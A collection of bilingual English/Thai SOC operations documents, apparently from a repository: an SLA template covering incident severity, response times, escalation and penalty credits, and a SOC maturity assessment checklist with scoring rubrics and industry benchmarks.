-   [DLP SOP](DLP_SOP.en.md) — Network DLP
-   [Alert Tuning SOP](Alert_Tuning.en.md) — การ tune network alerts


---

## File: 06_Operations_Management/SLA_Template.en.md

# SOC Service Level Agreement (SLA) Template

> **Document ID:** SLA-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Between:** [SOC Team] and [Business Unit / Management]

---

## Purpose

This SLA defines the expected service levels for the Security Operations Center, including response times, escalation procedures, and reporting commitments. This template can be customized for your organization.

---

## Scope of Services

The SOC provides the following services:

| Service | Coverage | Description |
|:---|:---:|:---|
| Security Monitoring | 24/7 or 8/5 | Continuous monitoring of security alerts |
| Incident Response | 24/7 or 8/5 | Investigation and response to security incidents |
| Threat Intelligence | Business hours | Threat landscape monitoring and IOC management |
| Vulnerability Alerts | Business hours | Notification of critical vulnerabilities |
| Compliance Monitoring | Business hours | Regulatory compliance monitoring |
| Reporting | Monthly | Operational reports and metrics |

> ⚠️ **Out of Scope:** Penetration testing, application development security review, physical security, IT helpdesk.

---

## Incident Severity Classification

| Severity | Definition | Examples |
|:---|:---|:---|
| **P1 — Critical** | Active attack, data breach, business disruption | Ransomware, active data exfiltration, production down |
| **P2 — High** | Confirmed compromise, potential data breach | Account takeover, malware execution, lateral movement |
| **P3 — Medium** | Suspicious activity requiring investigation | Brute force attempts, policy violation, anomalous behavior |
| **P4 — Low** | Informational, minor policy violation | Failed scans, low-risk alerts, misconfigurations |

---

## Response Time SLA

### Initial Response Time

| Severity | Response Time | Escalation Time | Resolution Target |
|:---:|:---:|:---:|:---:|
| **P1 — Critical** | ≤ 15 minutes | ≤ 30 minutes | ≤ 4 hours (containment) |
| **P2 — High** | ≤ 30 minutes | ≤ 2 hours | ≤ 8 hours |
| **P3 — Medium** | ≤ 4 hours | ≤ 8 hours | ≤ 3 business days |
| **P4 — Low** | ≤ 8 hours | N/A | ≤ 5 business days |

### Definition of Terms

- **Response Time:** Time from alert detection to first analyst action
- **Escalation Time:** Time from detection to notifying the appropriate management
- **Resolution Target:** Time from detection to containment/resolution (best effort)

### SLA Clock Rules

- P1/P2: Clock runs **24/7** (no pause for weekends)
- P3/P4: Clock runs **business hours** only (Mon–Fri 08:00–17:00)
- Clock pauses when: waiting for customer input, approved maintenance window

---

## Escalation Matrix

| Level | Who | When | Contact |
|:---:|:---|:---|:---|
| **L1** | SOC Analyst (T1) | All alerts | [SOC hotline / Slack] |
| **L2** | Senior Analyst (T2) | T1 can't resolve in 30 min | [Name, phone] |
| **L3** | IR Lead / SOC Manager | P1/P2 incidents | [Name, phone] |
| **L4** | CISO / CTO | Data breach, business impact | [Name, phone] |
| **L5** | CEO / Board | Regulatory notification required | [Name, phone] |

---

## Reporting Commitments

| Report | Frequency | Audience | Delivery |
|:---|:---:|:---|:---|
| Incident Notification | Real-time (P1/P2) | Management | Slack/email |
| Shift Handoff | Every shift | SOC team | Shared document |
| Weekly Summary | Weekly | SOC Manager | Email |
| Monthly SOC Report | Monthly | CISO, Management | Presentation + PDF |
| Quarterly Executive Brief | Quarterly | Board / Executive team | Presentation |

### Monthly Report Contents

```
1. Executive Summary
2. Incidents by Severity (P1/P2/P3/P4 counts)
3. MTTD / MTTR Trends
4. Top 10 Alert Categories
5. SLA Compliance %
6. Notable Incidents Summary
7. Detection Coverage Update
8. Recommendations
```

---

## Key Performance Indicators (KPIs)

| KPI | Target | Measurement |
|:---|:---:|:---|
| SLA Compliance (P1 response) | ≥ 95% | % of P1s responded within 15 min |
| SLA Compliance (P2 response) | ≥ 90% | % of P2s responded within 30 min |
| MTTD | ≤ 1 hour | Average time to detect incidents |
| MTTR | ≤ 4 hours | Average time to respond/contain |
| False Positive Rate | ≤ 40% | % of alerts that are not true threats |
| Alert Closure Rate | ≥ 95% | % of alerts processed within SLA |
| Analyst Utilization | 60–80% | Optimal workload balance |

---

## Availability & Maintenance

| Item | Commitment |
|:---|:---|
| SIEM availability | ≥ 99.5% uptime |
| Planned maintenance | 4-hour window, monthly, with 48h notice |
| Emergency maintenance | Justified, SOC remains operational |
| Failover | Backup analyst on-call if primary unavailable |

---

## Review & Amendments

| Item | Frequency |
|:---|:---|
| SLA review | Annually (or after major incident) |
| KPI targets review | Semi-annually |
| Contact information | Quarterly |
| Services scope | Annually |

---

## Signatures

```
SOC Manager:         _________________________ Date: ___________
CISO:                _________________________ Date: ___________
Business Unit Head:  _________________________ Date: ___________
```

---

## SLA Penalty / Credit Structure

### For Internal SOC

| SLA Breach | Impact | Escalation |
|:---|:---|:---|
| P1 MTTR > 4 hours | Incident review required | Auto-escalate to CISO |
| P2 MTTR > 8 hours | Post-mortem required | SOC Manager review |
| SLA compliance < 90% (monthly) | Improvement plan required | CISO + SOC Manager meeting |
| SLA compliance < 80% (monthly) | Staffing/tooling review | Board notification |

### For MSSP Contract

| SLA Level | Credit | Trigger |
|:---|:---|:---|
| Monthly SLA 95-99% | No penalty | Target met |
| Monthly SLA 90-94.9% | 5% monthly fee credit | Warning |
| Monthly SLA 85-89.9% | 10% monthly fee credit | Improvement plan |
| Monthly SLA < 85% | 20% credit + contract review | Remediation |
| P1 missed 3x in quarter | Contract termination right | Breach |

## Quarterly SLA Review Agenda

```markdown
## SLA Review Meeting — Q[X] 20XX

### Attendees
- SOC Manager, CISO, [MSSP rep if applicable]

### Agenda
1. **SLA Performance Summary** (10 min)
   - Overall SLA compliance rate
   - Breakdown by severity (P1/P2/P3/P4)
   - Trend vs. previous quarter

2. **SLA Breaches Analysis** (15 min)
   - List of all breaches with root cause
   - Patterns or recurring issues
   - Corrective actions taken

3. **KPI Deep Dive** (10 min)
   - MTTD / MTTR trends
   - Alert volume and FP rate trends
   - Staffing utilization

4. **Improvement Actions** (10 min)
   - Status of previous quarter's actions
   - New improvement proposals
   - Resource requests

5. **SLA Target Review** (5 min)
   - Are current targets appropriate?
   - Proposed adjustments for next quarter
```

## Related Documents

- [Severity Matrix](../05_Incident_Response/Severity_Matrix.en.md)
- [SOC Metrics](../06_Operations_Management/SOC_Metrics.en.md)
- [Communication Templates](../05_Incident_Response/Communication_Templates.en.md)
- [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md)


---

## File: 06_Operations_Management/SLA_Template.th.md

# แม่แบบ SLA — ข้อตกลงระดับบริการ SOC

> **รหัสเอกสาร:** SLA-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **ระหว่าง:** [ทีม SOC] กับ [หน่วยธุรกิจ / ผู้บริหาร]

---

## ขอบเขตบริการ

| บริการ | เวลา | คำอธิบาย |
|:---|:---:|:---|
| Security Monitoring | 24/7 หรือ 8/5 | ตรวจจับ alert ต่อเนื่อง |
| Incident Response | 24/7 หรือ 8/5 | สืบสวนและตอบสนอง |
| Threat Intelligence | เวลาทำการ | ติดตามภัยคุกคาม |
| รายงาน | รายเดือน | รายงานผลปฏิบัติการ |

---

## เวลาตอบสนอง SLA

| ระดับ | ตอบสนอง | Escalate | แก้ไข |
|:---:|:---:|:---:|:---:|
| **P1 วิกฤต** | ≤ 15 นาที | ≤ 30 นาที | ≤ 4 ชม. |
| **P2 สูง** | ≤ 30 นาที | ≤ 2 ชม. | ≤ 8 ชม. |
| **P3 กลาง** | ≤ 4 ชม. | ≤ 8 ชม. | ≤ 3 วันทำการ |
| **P4 ต่ำ** | ≤ 8 ชม. | N/A | ≤ 5 วันทำการ |

**กฎเวลา:**
- P1/P2: นับ **24/7** (ไม่หยุดวันหยุด)
- P3/P4: นับ **เวลาทำการ** (จ-ศ 08:00–17:00)

---

## Escalation

| ระดับ | ใคร | เมื่อไหร่ |
|:---:|:---|:---|
| L1 | SOC Analyst | Alert ทั้งหมด |
| L2 | Senior Analyst | แก้ไม่ได้ใน 30 นาที |
| L3 | IR Lead / SOC Manager | P1/P2 |
| L4 | CISO / CTO | Data breach |
| L5 | CEO / Board | ต้องแจ้งหน่วยงานกำกับ |

---

## KPIs

| ตัวชี้วัด | เป้า |
|:---|:---:|
| SLA Compliance (P1) | ≥ 95% |
| SLA Compliance (P2) | ≥ 90% |
| MTTD | ≤ 1 ชม. |
| MTTR | ≤ 4 ชม. |
| False Positive | ≤ 40% |

---

## รายงาน

| รายงาน | ความถี่ | กลุ่มเป้าหมาย |
|:---|:---:|:---|
| แจ้ง Incident | Real-time (P1/P2) | ผู้บริหาร |
| สรุปรายสัปดาห์ | รายสัปดาห์ | SOC Manager |
| รายงานเดือน | รายเดือน | CISO |
| สรุปผู้บริหาร | รายไตรมาส | Board |

---

## ลงชื่อ

```
SOC Manager:    ____________________ วันที่: __________
CISO:           ____________________ วันที่: __________
หัวหน้าหน่วย:    ____________________ วันที่: __________
```

---

## SLA Tiers

| Tier | เหมาะกับ | Response (P1) | Response (P2) | Monthly Report |
|:---|:---|:---:|:---:|:---:|
| **Platinum** | Critical infrastructure | ≤ 15 นาที | ≤ 30 นาที | ✅ |
| **Gold** | Enterprise | ≤ 30 นาที | ≤ 1 ชม. | ✅ |
| **Silver** | SMB | ≤ 1 ชม. | ≤ 4 ชม. | ✅ |
| **Bronze** | Startup | ≤ 4 ชม. | ≤ 8 ชม. | ❌ |

## SLA Breach Escalation

```mermaid
graph TD
    Breach["⏰ SLA ใกล้ Breach"] --> Warn["🟡 Warning (75% SLA)"]
    Warn --> Lead["แจ้ง Shift Lead"]
    Lead --> Breach2{"Breach แล้ว?"}
    Breach2 -->|ใช่| Manager["🔴 แจ้ง SOC Manager"]
    Breach2 -->|ไม่| Resolve["✅ แก้ไขทัน"]
    Manager --> Report["📊 บันทึกใน SLA Report"]
```

## Penalty & Credit Structure

| SLA Target | Uptime/Compliance | Credit |
|:---|:---:|:---|
| ≥ 99.9% | All SLAs met | 0% credit |
| 99.0–99.8% | Minor breaches | 5% credit |
| 95.0–98.9% | Moderate breaches | 10% credit |
| < 95.0% | Major breaches | 15% credit + review |

## SLA Reporting Template

| ตัวชี้วัด | เป้าหมาย | ผลจริง | สถานะ |
|:---|:---|:---|:---:|
| MTTA (P1) | ≤ 15 นาที | [XX] นาที | ✅/❌ |
| MTTA (P2) | ≤ 30 นาที | [XX] นาที | ✅/❌ |
| MTTR (P1) | ≤ 4 ชม. | [XX] ชม. | ✅/❌ |
| MTTR (P2) | ≤ 8 ชม. | [XX] ชม. | ✅/❌ |
| FP Rate | < 10% | [XX]% | ✅/❌ |
| Report Delivery | ภายใน 5 วันทำการ | [วันที่] | ✅/❌ |

## SLA Tier Definitions

### Response Time SLA

| Priority | Response | Update | Resolution |
|:---|:---|:---|:---|
| P1 Critical | 15 min | ทุก 30 min | 4 hrs |
| P2 High | 30 min | ทุก 1 hr | 8 hrs |
| P3 Medium | 2 hrs | ทุก 4 hrs | 24 hrs |
| P4 Low | 8 hrs | ทุก 24 hrs | 72 hrs |

### SLA Breach Escalation

| Breach Time | Escalation To | Action |
|:---|:---|:---|
| 50% of SLA | SOC Lead | Reprioritize resources |
| 75% of SLA | SOC Manager | Additional support |
| 100% of SLA | CISO | Executive escalation |

### SLA Reporting Template

| Period | P1 Met | P2 Met | P3 Met | Overall |
|:---|:---|:---|:---|:---|
| Week 1 | 100% | 95% | 98% | 97% |
| Week 2 | 90% | 100% | 95% | 95% |
| Month | 95% | 97% | 96% | 96% |

### SLA Review Cycle

| Activity | Frequency |
|:---|:---|
| SLA review | Monthly |
| SLA renegotiation | Annual |

## โครงสร้าง SLA Penalty / Credit

### สำหรับ SOC ภายใน

| SLA Breach | ผลกระทบ | Escalation |
|:---|:---|:---|
| P1 MTTR > 4 ชม. | ต้อง incident review | Auto-escalate ไป CISO |
| P2 MTTR > 8 ชม. | ต้อง post-mortem | SOC Manager review |
| SLA compliance < 90% (เดือน) | ต้องแผนปรับปรุง | ประชุม CISO + SOC Manager |
| SLA compliance < 80% (เดือน) | ทบทวน staffing/เครื่องมือ | แจ้ง Board |

### สำหรับสัญญา MSSP

| SLA Level | Credit | Trigger |
|:---|:---|:---|
| SLA เดือน 95-99% | ไม่มี penalty | ถึงเป้า |
| SLA เดือน 90-94.9% | Credit 5% ค่าบริการ | เตือน |
| SLA เดือน 85-89.9% | Credit 10% ค่าบริการ | แผนปรับปรุง |
| SLA เดือน < 85% | Credit 20% + ทบทวนสัญญา | แก้ไข |
| P1 พลาด 3 ครั้ง/ไตรมาส | สิทธิ์ยกเลิกสัญญา | Breach |

## วาระประชุม SLA Review รายไตรมาส

```markdown
## ประชุมทบทวน SLA — ไตรมาส [X] 25XX

### ผู้เข้าร่วม
- SOC Manager, CISO, [ตัวแทน MSSP ถ้ามี]

### วาระ
1. **สรุป SLA Performance** (10 นาที)
   - อัตรา compliance รวม
   - แยกตาม severity (P1/P2/P3/P4)
   - แนวโน้มเทียบไตรมาสก่อน

2. **วิเคราะห์ SLA Breaches** (15 นาที)
   - รายการ breach ทั้งหมดพร้อมสาเหตุ
   - รูปแบบหรือปัญหาที่เกิดซ้ำ
   - การแก้ไขที่ดำเนินการ

3. **KPI Deep Dive** (10 นาที)
   - แนวโน้ม MTTD / MTTR
   - แนวโน้ม alert volume และ FP rate
   - Staffing utilization

4. **การปรับปรุง** (10 นาที)
   - สถานะ actions ไตรมาสก่อน
   - ข้อเสนอปรับปรุงใหม่
   - ขอทรัพยากร

5. **ทบทวนเป้าหมาย SLA** (5 นาที)
   - เป้าปัจจุบันเหมาะสมไหม?
   - ข้อเสนอปรับไตรมาสหน้า
```

## เอกสารที่เกี่ยวข้อง

- [ตารางความรุนแรง](../05_Incident_Response/Severity_Matrix.th.md)
- [ตัวชี้วัด SOC](SOC_Metrics.th.md)
- [โครงสร้างทีม SOC](SOC_Team_Structure.th.md)


---

## File: 06_Operations_Management/SOC_Assessment_Checklist.en.md

# SOC Capability Maturity Model (SOC-CMM) Assessment

**Assessment Period**: Quarterly

## 1. Improvement Cycle
We use a continuous improvement loop to advance our SOC maturity.

```mermaid
graph LR
    Measure[1. Measure] --> Analyze[2. Analyze]
    Analyze --> Plan[3. Plan]
    Plan --> Improve[4. Improve]
    Improve --> Measure
    
    subgraph "Actions"
    Measure --- Check[Checklist Assessment]
    Analyze --- Gap[Gap Analysis]
    Plan --- Budget[Budget & Tasks]
    Improve --- Deploy[Implementation]
    end
```

## 2. Maturity Levels
-   **Level 1 (Initial)**: Ad-hoc, chaotic, reactive.
-   **Level 2 (Managed)**: Processes defined but reactive.
-   **Level 3 (Defined)**: Proactive, documented standards (We are here).
-   **Level 4 (Quantitatively Managed)**: Metrics-driven (MTTD/MTTR).
-   **Level 5 (Optimizing)**: Automated, AI-driven, advanced hunting.

## 3. Assessment Checklist

### Domain 1: Business
- [ ] Defined SOC Charter & Strategy?
- [ ] Executive Sponsorship & Budget?
- [ ] Defined Metrics (KPIs) reporting?

### Domain 2: People
- [ ] 24/7 Shift Schedule operational?
- [ ] defined Onboarding Curriculum?
- [ ] Regular Skill Training (Purple Team)?

### Domain 3: Process
- [ ] SOPs for all major tasks?
- [ ] Playbooks for top 10 threats?
- [ ] Change Management (RFC) in place?

### Domain 4: Technology
- [ ] SIEM ingesting critical logs?
- [ ] EDR deployed on 95%+ endpoints?
- [ ] SOAR automation for repetitive tasks?

### Domain 5: Services
- [ ] Real-time Monitoring & Alerting?
- [ ] Incident Response Capability?
- [ ] Threat Intelligence integration?

## 4. Scoring
Count the "Yes" answers to determine approximate maturity.
-   0-5: Level 1
-   6-10: Level 2
-   11-15: Level 3 (Target Baseline)
-   16-18: Level 4
-   19+: Level 5

### Domain 6: Compliance & Governance
- [ ] PDPA / GDPR compliance procedures in place?
- [ ] Data classification and TLP standards followed?
- [ ] Regular compliance audits conducted?
- [ ] DPO coordination process established?

## 5. Gap Analysis Template

| Domain | Current Level | Target Level | Gap | Priority | Remediation |
|:---|:---:|:---:|:---:|:---:|:---|
| Business | [1-5] | [3+] | [Δ] | [H/M/L] | [Action items] |
| People | [1-5] | [3+] | [Δ] | [H/M/L] | [Action items] |
| Process | [1-5] | [3+] | [Δ] | [H/M/L] | [Action items] |
| Technology | [1-5] | [3+] | [Δ] | [H/M/L] | [Action items] |
| Services | [1-5] | [3+] | [Δ] | [H/M/L] | [Action items] |
| Compliance | [1-5] | [3+] | [Δ] | [H/M/L] | [Action items] |

## 6. Improvement Roadmap

| Quarter | Focus Area | Key Initiatives | Success Criteria |
|:---|:---|:---|:---|
| Q1 | Foundation | SOPs, shift schedule, log onboarding | Level 2 achieved |
| Q2 | Detection | Sigma rules, playbooks, alert tuning | 50 playbooks active |
| Q3 | Automation | SOAR workflows, auto-enrichment | MTTR < 60 min |
| Q4 | Advanced | Threat hunting, purple team, TI program | Level 3 achieved |

## 7. Assessment Schedule

| Assessment Type | Frequency | Participants | Output |
|:---|:---|:---|:---|
| Self-assessment (this checklist) | Quarterly | SOC Manager + Leads | Maturity score + gaps |
| Peer review | Semi-annually | Partner SOC / consultant | Independent assessment |
| External audit | Annually | Third-party assessor | Formal maturity report |

## 8. Detailed Scoring Rubric

### Domain 1: Business (0-20 points)

| Question | 0 pts | 1 pt | 2 pts | 3 pts | 4 pts |
|:---|:---|:---|:---|:---|:---|
| SOC Charter & Strategy | None | Draft | Approved | Reviewed annually | Aligned to business risk |
| Executive Sponsorship | None | Informal | Formal sponsor | Budget allocated | Board reporting |
| KPI Reporting | None | Ad-hoc | Monthly manual | Automated dashboard | Executive dashboard |
| Budget & Resources | No budget | Shared budget | Dedicated budget | Multi-year plan | ROI-linked |
| Business Alignment | No alignment | Partial | Mapped to risks | Risk-adjusted | Board-integrated |

### Domain 2: People (0-20 points)

| Question | 0 pts | 1 pt | 2 pts | 3 pts | 4 pts |
|:---|:---|:---|:---|:---|:---|
| Staffing Coverage | Business hours | Extended hours | 24/5 | 24/7 on-call | 24/7 fully staffed |
| Onboarding Program | None | Informal | Documented | Structured + testing | Mentorship program |
| Continuous Training | None | Annual | Quarterly | Monthly | Weekly CTF/exercises |
| Career Development | None | Job descriptions | Career paths | Growth plans | Retention strategy |
| Burnout Prevention | None | Awareness | Shift rotation | Wellness program | Proactive monitoring |

### Domain 3: Process (0-20 points)

| Question | 0 pts | 1 pt | 2 pts | 3 pts | 4 pts |
|:---|:---|:---|:---|:---|:---|
| SOPs Documentation | None | <50% covered | 50-80% covered | >80% covered | 100% + version control |
| Playbook Coverage | None | Top 5 threats | Top 10 threats | Top 20 threats | All threats + auto |
| Change Management | None | Informal | Documented RFC | Peer-reviewed RFC | Automated CI/CD |
| Lessons Learned | None | Ad-hoc | Per-incident | Trending analysis | Automated improvement |
| Process Metrics | None | Manual tracking | Monthly review | Real-time dashboard | Predictive analytics |

## 9. Previous Assessment Tracker

| Assessment Date | Overall Score | Level | Key Gaps | Actions Taken |
|:---|:---:|:---:|:---|:---|
| YYYY-MM-DD | __/100 | [1-5] | [List gaps] | [Actions completed] |
| YYYY-MM-DD | __/100 | [1-5] | [List gaps] | [Actions completed] |
| YYYY-MM-DD | __/100 | [1-5] | [List gaps] | [Actions completed] |
| YYYY-MM-DD | __/100 | [1-5] | [List gaps] | [Actions completed] |

## Industry Maturity Benchmarks

Compare your SOC maturity against industry averages:

| Domain | Level 1 (Initial) | Level 2 (Managed) | Level 3 (Defined) | Level 4 (Measured) | Level 5 (Optimized) |
|:---|:---|:---|:---|:---|:---|
| **People** | Ad-hoc staffing | Defined roles | Training program | Career paths | Continuous development |
| **Process** | Reactive only | Basic IR process | Documented SOPs | Metrics-driven | Continuous improvement |
| **Technology** | Basic SIEM | SIEM + EDR | SOAR integration | Full stack automated | AI/ML-assisted |
| **Detection** | Vendor defaults | Custom rules | MITRE-mapped | Threat-intel driven | Proactive hunting |
| **Response** | Manual, slow | Playbook-based | Partially automated | Mostly automated | Fully orchestrated |

### Typical Maturity by SOC Age

| SOC Age | Expected Level | Key Focus Area |
|:---|:---:|:---|
| 0-6 months | Level 1 | Getting basics running |
| 6-12 months | Level 1-2 | Documentation + staffing |
| 1-2 years | Level 2-3 | Process maturity + coverage |
| 2-3 years | Level 3-4 | Metrics + automation |
| 3+ years | Level 4-5 | Optimization + innovation |

## Related Documents
-   [Incident Response Framework](../05_Incident_Response/Framework.en.md)
-   [SOC Metrics & KPIs](SOC_Metrics.en.md)
-   [SOC Maturity Assessment](SOC_Maturity_Assessment.en.md)

## References
-   [SOC-CMM (Capability Maturity Model)](https://www.soc-cmm.com/)
-   [MITRE SOC Strategy](https://mitre.org/)


---

## File: 06_Operations_Management/SOC_Assessment_Checklist.th.md

# แบบประเมินระดับความพร้อม SOC (SOC-CMM)

**รอบการประเมิน**: รายไตรมาส

## 1. วงจรการปรับปรุง (Improvement Cycle)
เราใช้วงจรการปรับปรุงอย่างต่อเนื่องเพื่อยกระดับความสามารถของ SOC

```mermaid
graph LR
    Measure[1. วัดผล] --> Analyze[2. วิเคราะห์]
    Analyze --> Plan[3. วางแผน]
    Plan --> Improve[4. ปรับปรุง]
    Improve --> Measure
    
    subgraph "การกระทำ"
    Measure --- Check[ทำแบบประเมิน]
    Analyze --- Gap[หาช่องว่าง]
    Plan --- Budget[ของบ/แบ่งงาน]
    Improve --- Deploy[ลงมือทำ]
    end
```

## 2. ระดับความพร้อม (Maturity Levels)
-   **Level 1 (Initial)**: ทำตามมีตามเกิด, แก้ปัญหาเฉพาะหน้า
-   **Level 2 (Managed)**: มีกระบวนการ แต่ยังทำงานเชิงรับ (Reactive)
-   **Level 3 (Defined)**: มีมาตรฐานชัดเจน, ทำงานเชิงรุก (Proactive) **(เป้าหมายปัจจุบัน)**
-   **Level 4 (Quantitatively Managed)**: ขับเคลื่อนด้วยข้อมูล (Metrics/KPIs)
-   **Level 5 (Optimizing)**: อัตโนมัติขั้นสูง, AI-driven

## 3. รายการตรวจเช็ค (Checklist)

### Domain 1: ธุรกิจ (Business)
- [ ] มีพ.ร.บ. หรือกฎบัตร (Charter) ของ SOC?
- [ ] ได้รับการสนับสนุนงบประมาณจากผู้บริหาร?
- [ ] มีการรายงานผล KPI สม่ำเสมอ?

### Domain 2: บุคลากร (People)
- [ ] มีตารางเวร 24/7 ที่ชัดเจน?
- [ ] มีหลักสูตร Onboarding พนักงานใหม่?
- [ ] มีการฝึกอบรมทักษะ (เช่น Purple Team) สม่ำเสมอ?

### Domain 3: กระบวนการ (Process)
- [ ] มี SOP ครอบคลุมงานหลัก?
- [ ] มี Playbook รับมือภัยคุกคาม 10 อันดับแรก?
- [ ] มีกระบวนการ Change Management (RFC)?

### Domain 4: เทคโนโลยี (Technology)
- [ ] SIEM รับ Log สำคัญครบถ้วน?
- [ ] EDR ติดตั้งครอบคลุม 95%+ ของเครื่อง?
- [ ] มีระบบ SOAR ช่วยงานซ้ำๆ?

### Domain 5: บริการ (Services)
- [ ] มีการเฝ้าระวังและแจ้งเตือนแบบ Real-time?
- [ ] มีขีดความสามารถในการตอบสนองเหตุการณ์ (IR)?
- [ ] มีการใช้ Threat Intelligence?

## 4. การให้คะแนน
นับจำนวนข้อที่ตอบ "ใช่" เพื่อประเมินระดับ
-   0-5: Level 1
-   6-10: Level 2
-   11-13: Level 3 (เกณฑ์มาตรฐาน)
-   14+: Level 4+

### โดเมน 6: การปฏิบัติตามและการกำกับดูแล
- [ ] มีขั้นตอน PDPA / GDPR?
- [ ] มาตรฐานการจำแนกข้อมูลและ TLP?
- [ ] ดำเนินการตรวจสอบการปฏิบัติตามเป็นประจำ?

## เทมเพลตวิเคราะห์ช่องว่าง

| โดเมน | ระดับปัจจุบัน | ระดับเป้าหมาย | ช่องว่าง | ลำดับ | การแก้ไข |
|:---|:---:|:---:|:---:|:---:|:---|
| ธุรกิจ | [1-5] | [3+] | [Δ] | [H/M/L] | [รายการดำเนินการ] |
| บุคลากร | [1-5] | [3+] | [Δ] | [H/M/L] | [รายการดำเนินการ] |
| กระบวนการ | [1-5] | [3+] | [Δ] | [H/M/L] | [รายการดำเนินการ] |
| เทคโนโลยี | [1-5] | [3+] | [Δ] | [H/M/L] | [รายการดำเนินการ] |
| บริการ | [1-5] | [3+] | [Δ] | [H/M/L] | [รายการดำเนินการ] |
| การปฏิบัติตาม | [1-5] | [3+] | [Δ] | [H/M/L] | [รายการดำเนินการ] |

## แผนการปรับปรุง

| ไตรมาส | พื้นที่เน้น | กิจกรรมหลัก | เกณฑ์ความสำเร็จ |
|:---|:---|:---|:---|
| Q1 | พื้นฐาน | SOPs, ตารางกะ, Log onboarding | ถึงระดับ 2 |
| Q2 | การตรวจจับ | Sigma rules, playbooks, การปรับจูน | 50 playbooks ใช้งาน |
| Q3 | ระบบอัตโนมัติ | SOAR workflows, auto-enrichment | MTTR < 60 นาที |
| Q4 | ขั้นสูง | Threat hunting, purple team, TI program | ถึงระดับ 3 |

## 8. เกณฑ์ให้คะแนนโดยละเอียด

### ด้าน 1: ธุรกิจ (0-20 คะแนน)

| คำถาม | 0 | 1 | 2 | 3 | 4 |
|:---|:---|:---|:---|:---|:---|
| SOC Charter | ไม่มี | ร่าง | อนุมัติ | ทบทวนรายปี | สอดคล้องความเสี่ยง |
| Executive Sponsorship | ไม่มี | ไม่เป็นทางการ | มี sponsor | จัดสรรงบ | รายงาน Board |
| KPI Reporting | ไม่มี | Ad-hoc | รายเดือน manual | Dashboard อัตโนมัติ | Executive dashboard |
| งบประมาณ | ไม่มีงบ | ใช้ร่วม | งบเฉพาะ | แผนหลายปี | ผูกกับ ROI |
| Business Alignment | ไม่สอดคล้อง | บางส่วน | Map กับเสี่ยง | ปรับตามความเสี่ยง | Board-integrated |

### ด้าน 2: คน (0-20 คะแนน)

| คำถาม | 0 | 1 | 2 | 3 | 4 |
|:---|:---|:---|:---|:---|:---|
| Staffing Coverage | เวลาทำการ | ขยายเวลา | 24/5 | 24/7 on-call | 24/7 เต็มอัตรา |
| โปรแกรม Onboarding | ไม่มี | ไม่เป็นทางการ | มีเอกสาร | มีโครงสร้าง+ทดสอบ | Mentorship |
| ฝึกอบรมต่อเนื่อง | ไม่มี | ปีละครั้ง | รายไตรมาส | รายเดือน | Weekly CTF |
| พัฒนาอาชีพ | ไม่มี | JD ชัด | Career path | แผนเติบโต | Retention strategy |
| ป้องกัน Burnout | ไม่มี | รับรู้ | หมุนกะ | Wellness program | ตรวจเชิงรุก |

### ด้าน 3: กระบวนการ (0-20 คะแนน)

| คำถาม | 0 | 1 | 2 | 3 | 4 |
|:---|:---|:---|:---|:---|:---|
| SOPs Documentation | ไม่มี | <50% | 50-80% | >80% | 100% + version control |
| Playbook Coverage | ไม่มี | Top 5 | Top 10 | Top 20 | ครบ + auto |
| Change Management | ไม่มี | ไม่เป็นทางการ | RFC เอกสาร | Peer-reviewed RFC | CI/CD อัตโนมัติ |
| Lessons Learned | ไม่มี | Ad-hoc | ทุก incident | วิเคราะห์แนวโน้ม | ปรับปรุงอัตโนมัติ |
| Process Metrics | ไม่มี | ติดตาม manual | ทบทวนรายเดือน | Real-time dashboard | Predictive analytics |

## 9. ตัวติดตามผลประเมินก่อนหน้า

| วันที่ประเมิน | คะแนนรวม | Level | ช่องโหว่หลัก | การดำเนินการ |
|:---|:---:|:---:|:---|:---|
| YYYY-MM-DD | __/100 | [1-5] | [ระบุช่องโหว่] | [สิ่งที่ทำแล้ว] |
| YYYY-MM-DD | __/100 | [1-5] | [ระบุช่องโหว่] | [สิ่งที่ทำแล้ว] |
| YYYY-MM-DD | __/100 | [1-5] | [ระบุช่องโหว่] | [สิ่งที่ทำแล้ว] |
| YYYY-MM-DD | __/100 | [1-5] | [ระบุช่องโหว่] | [สิ่งที่ทำแล้ว] |

## เกณฑ์ Maturity อุตสาหกรรม

เปรียบเทียบ maturity ของ SOC กับค่าเฉลี่ยอุตสาหกรรม:

| ด้าน | Level 1 (เริ่มต้น) | Level 2 (จัดการ) | Level 3 (กำหนด) | Level 4 (วัดผล) | Level 5 (ปรับปรุง) |
|:---|:---|:---|:---|:---|:---|
| **บุคลากร** | จ้างเฉพาะกิจ | กำหนดบทบาท | โปรแกรมฝึกอบรม | Career paths | พัฒนาต่อเนื่อง |
| **กระบวนการ** | Reactive เท่านั้น | IR process พื้นฐาน | SOPs บันทึกไว้ | ขับเคลื่อนด้วย metrics | ปรับปรุงต่อเนื่อง |
| **เทคโนโลยี** | SIEM พื้นฐาน | SIEM + EDR | SOAR integration | Full stack automated | AI/ML-assisted |
| **Detection** | Vendor defaults | Custom rules | MITRE-mapped | Threat-intel driven | Proactive hunting |
| **Response** | Manual, ช้า | Playbook-based | อัตโนมัติบางส่วน | อัตโนมัติส่วนใหญ่ | Fully orchestrated |

### Maturity ทั่วไปตามอายุ SOC

| อายุ SOC | Level คาดหวัง | จุดเน้นสำคัญ |
|:---|:---:|:---|
| 0-6 เดือน | Level 1 | ทำพื้นฐานให้ทำงานได้ |
| 6-12 เดือน | Level 1-2 | เอกสาร + กำลังคน |
| 1-2 ปี | Level 2-3 | กระบวนการ + coverage |
| 2-3 ปี | Level 3-4 | Metrics + automation |
| 3+ ปี | Level 4-5 | Optimization + innovation |

## เอกสารที่เกี่ยวข้อง (Related Documents)
-   [กรอบการตอบสนองเหตุการณ์](../05_Incident_Response/Framework.th.md)
-   [แบบประเมิน SOC](SOC_Assessment_Checklist.th.md)
-   [ตัวชี้วัด SOC](SOC_Metrics.th.md)

### Assessment Scoring Guide

| Score | Meaning | Action |
|:---|:---|:---|
| 0-2 | Critical gap | Immediate fix |
| 3-4 | Needs improvement | Plan within 30d |
| 5 | Meets standard | Maintain |

## References
-   [SOC-CMM (Capability Maturity Model)](https://www.soc-cmm.com/)
-   [MITRE SOC Strategy](https://mitre.org/)
-   14+: Level 4+


---

## File: 06_Operations_Management/SOC_Automation_Catalog.en.md

# SOC Automation Catalog

**Document ID**: OPS-SOP-012
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-15

